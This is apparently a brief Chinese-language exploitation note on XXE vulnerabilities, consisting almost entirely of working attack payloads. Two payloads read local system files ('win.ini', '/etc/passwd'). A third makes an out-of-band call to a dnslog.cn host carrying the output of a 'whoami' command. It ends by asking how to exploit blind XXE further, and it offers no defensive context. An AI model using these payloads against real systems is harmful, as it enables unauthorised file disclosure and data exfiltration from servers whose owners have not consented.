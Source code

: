 XXE漏洞的利用：

1. Windows读文件。

   ```
   <?xml version="1.0"?>
   <!DOCTYPE ANY [
        <!ENTITY xxe SYSTEM "file:///c:/windows/win.ini"> ]>
   <a>&xxe;</a>
   ```

2. Linux 读文件。

   ```
   <?xml version="1.0"?>
   <!DOCTYPE ANY [
        <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
   <a>&xxe;</a>
   ```

3. dnslog尝试执行命令。

   ```
   <?xml version="1.0" encoding="UTF-8"?>
   <!DOCTYPE test [
       <!ENTITY t SYSTEM "http://`whoami`.xxx.dnslog.cn/">
       ]
   >
   <test>&t;</test>
   ```

还能怎么深入利用？特别是对于无回显XXE漏洞？...

